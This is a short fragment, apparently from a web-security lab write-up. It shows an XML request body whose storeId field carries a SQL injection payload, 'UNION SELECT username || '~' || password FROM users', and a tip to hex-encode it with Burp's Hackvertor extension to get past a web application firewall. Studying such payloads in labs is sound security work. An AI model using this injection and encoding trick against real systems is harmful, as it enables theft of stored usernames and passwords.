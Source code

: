 >[!info]
>Use the "Hackvertor" extension from Burp to help encode the payload and bypass any WAF via Hackvertor --> Encode --> hex_entities.

```xml
<storeId>
<@hex_entities>
1 UNION SELECT username || '~' || password FROM users
<@/hex_entities>
</storeId>
```
